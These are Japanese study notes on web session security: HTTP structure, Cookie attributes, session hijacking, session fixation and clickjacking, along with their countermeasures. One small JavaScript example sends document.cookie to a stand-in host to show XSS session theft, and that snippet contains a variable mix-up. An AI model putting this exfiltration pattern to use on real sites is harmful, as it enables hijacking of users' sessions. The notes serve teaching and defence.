


# 2-1 HTTPのおさらい

* 「セッション管理」の不備を狙う攻撃と対策
    * セッション管理とは、クライアント（Webブウザー）とWebサーバー間で通信するときの、状態遷移を管理する仕組み
    * セッション管理の不備を狙った攻撃には「セッションハイジャック」「セッション固定攻撃」「クリックジャッキング」がある

## HTTPおさらい

セッション管理について説明する前に、HTTPの概要と、WebブラウザーとWebサーバーのやり取りをおさらい

* Webアクセスで一般的に利用するHTTP(Hypertext Transfer Protocol)というプロトコルには、状態遷移を管理する仕組みがない
    * そのままでは動的なWebアプリケーションを動作されられないのです。
    * 開発者がセッション管理の仕組みを個々のWebアプリケーションで実装する必要がある
    * Webブラウザ-とWebサーバーのやり取りは、リクエストとレスポンス一対一
    * Webブラウザーからのリクエストは、「リクエストライン」「リクエストヘッダー」「リクエストボティ」で構成される
        * リクエストラインには、要求の方法を示すメソッド（GETやPOST)と、供給するWebサーバーのリソース(htmlファイルやWebアプリケーション)を指定
        * リクエストヘッダーには、リクエストに付随して送る情報を指定
            * 例えば、Webブラウザーの種類、バージョンを示すUser-AgentやCookieがある
        * リクエストボディには、Webサーバーに対してPOSTメソッドで陸枝雄とを送信する時にパラメータを指定

### GETメソッドのセキュリティ上の注意点

* リクエストを送信する時は、一般的にGETまたはPOSTメソッドを使う
    * GETメソッドでは、リクエストラインにパラメータを指定
    * GETリクエストを受け取ったWebサーバーは、指定されたURLに該当するリソース(この場合は/search/index.html)を起動
    * 起動パラメータとしてクエリストリング(q=search)をWebアプリケーションに渡す
    * Webアプリケーションは、起動パラメータとして受け取ったクエリストリングを解釈し、プログラム中で参照

### GETメソッドの概要

* GETリクエストは、Webアプリケーションに対するパラメータがURLの一部となるため、メールなどで共有しやすい
* POSTメソッドに比べてアクセスログから攻撃に使われたパラメータを容易に把握できます。
* GETメソッドを使うときの注意点は、パラメータとして「認証に関わる情報や個人情報などの機微な情報を含めてはいけない」

### Referer

* このほか、Refererによる情報漏えいにも注意
    * Refererとはリクエストヘッダーの一つで、リンク元のURLをリンク先のWebサーバーに伝える為のもの
* Refererは、Webサーバーのアクセスログとして記録できる
    * リンク元のURLのパラメータがリンク先のサイトに記録されてしまう可能性がある

### POSTメソッドによるリクエスト

* POSTメソッドでは、クライアントからWebサーバーに対するパラメータとリクエストボディに記述する
    * パラメータの指定方法はGETのクエリストリングと情報に、「パラメータ名＝値」で指定し、「＆」でつなぐことで複数のパラメータを指定します。
* POSTrequestで送信されたパラメータはrequestボディに含まれる
    * パラメータがWebサーーバーのアクセスログに記録されない
    * また、Refererによる情報漏えいの可能性もない
    * ログイン画面で入力したユーザーIDやパスワードをWebサーバーに送信する際はPOSTリクエストを使うべき
    
### HTTPレスポンスの構造

* レスポンスは、「ステータスライン」「レスポンスヘッダー」「レスポンスボディ」で構成される
* ステータスラインには、リクエストをWebサーバーで処理した結果がコードとして記載される
* ステータスコードが200の場合は「正常に処理された」、404の場合は「要求されたリソースはサーバーに存在しない」を表す
* レスポンスヘッダーには、Content-LengthやContent-Typeなどのレスポンスボディに関する情報に加えて、サーバーが発行した状態の管理に必要な情報が含まれる
* レスポンスボディは、リクエストを処理した結果そのもの
    * HTMLファイルを要求するrequestであれば、レスポンスボディは指定されたHTMLファイル

### HTTPは状態を保持しないプロトコル

* HTTPは、同一ユーザーからのリクエストであっても1位回目のリクエストと2回目のリクエストは一連のものではなく、個別のリクエストとして処理されてしまう
    * リクエストとレスポンスが一対になっているため
    * このように状態を管理する仕組みがないことを「ステートレス」という
    * 開発者はセッション管理と呼ばれる仕組みをアプリケーションに実装する必要がある
* セッション管理では、Webアプリケーションが「セッションID」と呼ばれる識別子を発行
    * セッションIDを受け取ったWebブラウザーは、以降のリクエストのたびにセッションIDをサーバーに送信
    * これにより、Webアプリケーションは、一意のセッションIDを使って、セッションを区別できるようになる

#### セッションIDごとの情報を格納

* Webアプリケーションは、サーバー上にセッションIDごとの情報を格納
    * この情報を「セッション変数」と呼ぶ
    * セッション変数を使うと、ユーザーごとに必要なデータをセッションIDに関連付けて保存可能
    * こうすることで、認証状態などをサーバー側で保持でき、ユーザーごとの状態遷移を管理可能
* セッション変数はWebサーバー上ではメモリーやファイル、DBなどに保存する
    * 複数台のWebサーバーを利用して負荷分散する場合には、Webサーバー側でセッション情報を共有する仕組みを実装する

## 2-2　Cookieを使ったセッション管理

* セッションIDは一般的に、「Cookie」を使ってやり取りする
* ユーザーのコンピュータ上に一時的にデータを保管しておくための仕組み
* Cookieを使う事でセッションIDをWebブラウザーが自動的にリクエストヘッダーに含めてくれるので、Webアプリケーション開発者がCookieの送受信を気にする必要がなくなる

### 「secure」と「httponly」

* secure: CookieをHTTPS通信のみで使いたい場合に指定する
    * secureの属性を付けずにWebサーバーがCookieを発行すると、HTTPとHTTPSのいずれの通信でも、WebブラウザーはWebサーバーに対してCookieを送信してしまう
    * せっかくHTTPS通信で通信経路を暗号化してやり取りしたCookieが、暗号化されていないHTTP通信でもWebサーバーに対して送信されてしまう
* httponly: JSなどのクライアントサイドスクリプトからCookieを参照できなくする
    * Webアプリケーションにクロスサイトスクリプティングの脆弱性があると、外部のサイトからJSを不正に挿入することで、Cookieに保存されたセッションIDを盗み出せてしまう
    * httponlyはこれを防ぐための属性

## 2-3　セッション管理の不備を突いた攻撃：セッションハイジャック

* セッション管理の不備を突いた代表的な攻撃
* これは他人のセッションを乗っ取る攻撃
* セッションハイジャックでは、盗聴・推測などによってセッションIDを奪う
    * セッションIDを発行する機能は、通常は開発言語やフレームワークなどのミドルウェアが担っている
    * セッションIDを発行するミドルウェアのメカニズムに脆弱性があり、セッションIDが類推可能であった、総当たりでたどり着けてしまう場合に、セッションハイジャックの危険性がある
* 推測されにくいセッションIDにするには、セッションIDの生成を含むセッション管理の仕組みを自作せずに、開発言語やミドルウェアが持っているセッション管理の機能を利用するようにする

### クロスサイトスクリプティングでセッションIDが盗まれる

* セッションIDが盗まれる脆弱性
* 悪意のあるスクリプト（通常はWebブラウザー上で動作するJS）がユーザーのWebブラウザー上で動作してしまう脆弱性

### 事故によるセッションIDの漏えいを防ぐ

#### XSSによるセッションIDの盗み出し

* 反射型(reflected)
    * XSS脆弱性のあるサイトのURLにユーザのCookieを盗み出すスクリプトを混入し、被害者にURLをクリックさせる
* 蓄積がった(stored)
    * レビュー欄やコメント欄など、ユーザが登録・閲覧ができる箇所に、閲覧したユーザのCookieを盗み出すスクリプトを混入する
    
```javascript
//Cookieを盗み出すJSの例
var badURL='http://zzz/q=' + document.cookie;
var img= new image();
image.src = badURL;
```



* セッションIDをURLに含めるのは極力避ける
* Webアプリケーションサーバーによっては、セッションIDをURLに自動的に埋め込む機能（URL Rewriting）を持っている場合がある
    * 必要がなければ、この機能は無効にしておく

### セッションの有効期限を理解して安全に実装する

* 安全なセッション管理を設計・実装するには、セッションIDの発行方法に加えて、セッションの有効期限とセッションタイムアウトを理解する必要がある
* CookieでセッションIDを発行する場合、CookieのExpires属性でクライアントPC上におけるCookieの有効期限を設定する
* Webブラウザーを終了した後もCookieをクライアントPC上に保存し、次回のアクセス時に利用したい場合は、有効期限をなるべく短く設定し、認証に関わる情報（ユーザーIDなど）は保存しないようにする
* Expires属性を指定しなかった場合は、Webブラウザーを終了した時点でCookieは破棄される
    * Webブラウザー終了後に残す必要が無ければExpires属性は指定しないようにする
* 一定時間ユーザーからのアクセスが無かった場合には、サーバー上のセッション変数を破棄する必要がある
    * このタイミングをセッションタイムアウトという
    * セッション情報が格納される場所は、ファイルやメモリー、DB
    * セッションタイムアウトは、クライアントからサーバーへのリクエストが一定時間ない場合に発生する

## クリックジャッキング

* ユーザーを視覚的に欺き、クリックを誘発させる攻撃
* 一見正常に見えるWebページのコンテンツをクリックしたつもりが、別のWebサイトに対して意図せぬリクエストを送信してしまう
* ポイントはあらかじめ「クリックジャッキング脆弱性のあるWebシステム」からセッションIDが発行され、Webブラウザーに保存される

### ユーザーを視覚的に欺く

クリックジャッキング攻撃の流れは次の様になります。（図2-13）。



* ユーザーが「クリックジャッキング脆弱性のあるWebシステム」にログインする
* セッションを維持したままで、攻撃者が容易した「罠」のサイトを表示する
* 「罠」のサイトに表示されているクリックを誘発する箇所を、ユーザーがクリックする
* 実際には、「クリックジャッキング脆弱性のあるWebシステム」に対してリクエストが送信される
* 結果として、「クリックジャッキング脆弱性のあるWebシステム」でユーザーの登録情報の変更や、強制投稿等が行われる

### クリックジャッキング攻撃の仕組み

クリックジャッキングを誘発される「罠」のWebページは、次の2種類の画面を組み合わせて作られる

* A:クリックジャッキングの対象となるWebページ
* B:クリックを誘発させる、悪意のあるWebページ（攻撃者が用意したもの）
    * 攻撃者は、罠となるWebページ（B)に、クリックジャッキングの対象となるWebページ（A)を透明になるよう設定する
    * Webブラウザーには攻撃者が用意したWebページ（B)が表示される
    * しかし、ユーザーが画面上のボタンなどをクリックすると、iframeで読み込まれた透明なWebページ（A)をクリックしてしまったことなる

## 第2章のまとめ

### HTTPのおさらい

* HTTPはリクエストとレスポンスが一対一になっている
* WebブラウザーからWebサーバーへのリクエストは「リクエストライン」「リクエストヘッダー」「リクエストボディ」で構成される
* Webサーバーからのレスポンスは、「ステータスライン」「レスポンスヘッダ」「レスポンスボディ」で構成される
* GETメソッドは、URLにWebシステムへ送るパラメータを記述する
* POSTメソッドは、Webシステムへ送るパラメータをリクエストボディに記述する

### Cookieを使ったセッション管理

* HTTPはステートレスなプロトコル。状態遷移を識別するためのセッション管理は、Webシステムで個別に実装する必要がある
* セッション管理ではWebサーバーが発行したセッションIDを使ってセッションを識別する
* セッションIDは通常、Cookieを使ってWebブラウザーとWebサーバー間でやり取りする

### セッション管理の不備を突いた攻撃：セッションハイジャック

* セッションIDを盗聴・推測などによって盗み出すのがセッションハイジャック
* セッションをハイジャックされると、他人になりすましてWebシステムの操作ができてしまう
* セッションIDには推測されにくいものを使う。セッション管理の仕組みは、自作するのではなく、開発言語やフレームワークに備わっている物を使って実装する
* Webシステムにクロスサイトスクリプティングの脆弱性があると、JSからセッションIDが漏えいしてしまう危険性がある
* セッションIDをCookieではなくURLのパラメータとしてやり取りしていると、RefererによってセッションIDが漏えいしてしまうことがある

### セッション管理の不備を突いた攻撃：セッション固定攻撃

* 攻撃者が指定したセッションIDを、被害者に使わせるのがセッション固定攻撃
* セッション固定攻撃では、他人になりすましてWebシステムの操作が出来てしまう
* セッション固定攻撃を防ぐには、認証（ログイン）後にセッションIDを再発行する。重要な情報をセッションに格納したタイミングでもセッションIDを再発行するようにする

### クリックジャッキング

* Webシステムのユーザーを視覚的に欺き、クリックを誘発させる攻撃をクリックジャッキングという
* クリックジャッキングの被害に遭うと、知らぬ間に別のWebシステムに意図せぬリクエストを送信する。結果として「登録情報の変更」や「強制投稿」を実行してしまう
* クリックジャッキングを防ぐには「X-FRAME-OPTIONS」レスポンスヘッダーで「DENY」もしくは「SAMEORIGIN」を指定する。フレーム内への意図せぬ読み込みを防止できる